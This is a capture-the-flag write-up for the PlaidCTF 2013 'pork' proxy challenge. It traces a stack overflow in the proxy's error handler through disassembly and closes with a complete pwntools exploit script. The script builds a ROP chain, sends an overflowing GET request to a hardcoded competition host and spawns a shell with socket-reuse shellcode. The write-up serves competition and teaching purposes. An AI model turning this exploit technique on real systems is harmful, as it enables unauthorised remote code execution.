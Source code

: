 ```yaml
---
title: pork - PlaidCTF 2013
author: anonymous
layout: post
published: true
date: 2013-05-12 21:18:54
---
```


It was fairly obvious it was a proxy from strings

```text
Not found
GET %s HTTP/1.0
Host: %s
%s http://%s %s
Proxy does not implement this method
```

The third argument in sscanf could be ooverflown since read is called with
0x800 byes and the buffer is only 0x400.

```objdump
sub    esp,0x24f0
lea    ecx,[esp+0x1c24]
mov    DWORD PTR [esp+0x10],ecx
```
However as we can see the stack is large enough and the space above is writen
to before use.

A quick glance at clienterror reveals that it should be possible to make a
overflow here if we can control one of the three inputs. But in the main
function, we have no luck.

```objdump
mov    DWORD PTR [esp+0xc],0x8049b34
mov    DWORD PTR [esp+0x8],0x8049b59
mov    DWORD PTR [esp+0x4],0x8049b69
mov    eax,DWORD PTR [esp+0x24b8] ; socket
mov    DWORD PTR [esp],eax
call   8048d16 <clienterror>
```

Onwards to serve()!
call to clienterror with an argument? Check.

```objdump
lea    eax,[ebp-0x1894]
mov    DWORD PTR [esp+0xc],eax
mov    DWORD PTR [esp+0x8],0x8049ab8
mov    DWORD PTR [esp+0x4],0x8049ac2
mov    eax,DWORD PTR [ebp+0x8] ;socket
mov    DWORD PTR [esp],eax
call   8048d16 <clienterror>
```

This code is called if gethostnameby_r fails.

What is left is the ropping. pwntools to the rescue!

```python
#!/usr/bin/env python

from pwn import *

context('i386', 'linux', 'ipv4')

#HOST = '127.0.0.1'
HOST = '184.72.73.160'
PORT = 33227

r = remote(HOST, PORT, timeout = None)
p = rop.ROP('./pork-8c2fdf93e211c7358e0192a24bc951843da672b1')

buf = p.sections['.bss'] + ord('A')
shellcode = asm(shellcode.findpeersh())

p.call('read', [4, buf+5*4, len(shellcode)])
p.call(buf+5*4)

pivot_rop = p.flush()

for n,c in enumerate(pivot_rop):
    p.call('sprintf', [buf+n, p.search(c).next()])

p.migrate(buf)

rop_chain = p32(p._gadgets['popret'][3][0])*4 + p.generate()

pause()
r.send('GET http://' + 'A'.ljust(1024, 'A') + rop_chain + ' HTTP/1.1\r\n')
sleep(1.0)
r.send('\r\n')
sleep(1.0)
r.send(shellcode)
r.interactive()
```
